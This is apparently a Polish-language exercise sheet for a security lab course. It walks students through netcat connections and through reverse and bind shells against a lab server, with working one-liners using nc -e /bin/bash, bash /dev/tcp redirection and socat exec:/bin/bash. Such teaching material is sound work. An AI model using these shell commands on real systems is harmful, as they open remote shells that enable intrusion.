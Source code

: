 `Student: nc-lvp 10001`  
`Serwer: nc <IP_STUDENTA> 10001`

`Reverse Shell (nc)`
Celem zadania jest uruchomienie zdalnej powłoki bash na serwerze
192.168.100.6 za pomocą techniki reverse shell i narzędzia nc.  
Student powinien nasłuchiwać na porcie 10002/tcp, a serwer nawiązać połączenie
do studenta i uruchomić zdalną powłokę bash.

`Student: nc -lvp 10002`  
`Serwer: nc <IP_STUDENTA> 10002 -e /bin/bash`

`Reverse Shell (bash)`
Celem zadania jest uruchomienie zdalnej powłoki bash na serwerze 192.168.100.6
za pomocą techniki reverse shell i tylko (bez nc na serwerze) narzędzia bash.
Student powinien nasłuchiwać na porcie 10003/tcp, a serwer nawiązać połączenie do studenta i uruchomić zdalną powłokę bash.

`Student: nc-lvp 10003`  
`Serwer (bez nc): bash-i >& /dev/tcp/<IP_STUDENTA>/10003 0>&1`

`Reverse Shell (socat)`
Celem zadania jest uruchomienie zdalnej powłoki bash na serwerze 192.168.100.6
za pomocą techniki reverse shell i narzędzia socat. Student powinien nasłuchiwać na porcie 10004/tcp,  
a serwer nawiązać połączenie do studenta i uruchomić zdalną powłokę bash.

```
Student: socat file:`tty`,raw,echo=0 tcp-listen:10004
Serwer: socat tcp-connect:<IP_STUDENTA>:10004 exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

`Netcat (Bind TCP)`
Celem zadania jest nawiązanie połączenia TCP (za pomocą nc) pomiędzy serwerem
192.168.100.6 a maszyną studenta podłączoną do VPN. Serwer powinien
nasłuchiwać na porcie 20001/tcp, a student nawiązać połączenie do serwera.

```
Serwer: nc-lvp 20001
Student: nc 192.168.100.6 20001
```

`Bind Shell (nc)`
Celem zadania jest uruchomienie zdalnej powłoki bash na serwerze 
192.168.100.6 za pomocą techniki bind shell i narzędzia nc. Serwer powinien 
nasłuchiwać na porcie 20002/tcp, a student nawiązać połączenie do serwera
i uzyskać dostęp do zdalnej powłoki

```
Serwer: nc-lvp 20002 -e /bin/bash
Student: nc 192.168.100.6 20002

nc: Uruchamia program Netcat.
-l: Oznacza tryb nasłuchiwania (listening). Netcat będzie nasłuchiwał na określonym porcie, zamiast inicjować połączenie wychodzące.
-v: Oznacza tryb rozmowny (verbose), co pozwala na bardziej szczegółowe logowanie komunikatów o stanie połączenia.
-p 20002: Ustawia port 20002 jako port nasłuchujący. Klient musi połączyć się z tym portem, aby nawiązać połączenie.
-e /bin/bash: Oznacza, że po nawiązaniu połączenia Netcat wykona wskazany program. W tym przypadku jest to /bin/bash, co oznacza, że osoba łącząca się z Netcat otrzyma dostęp do powłoki systemowej na komputerze uruchamiającym to polecenie.
```
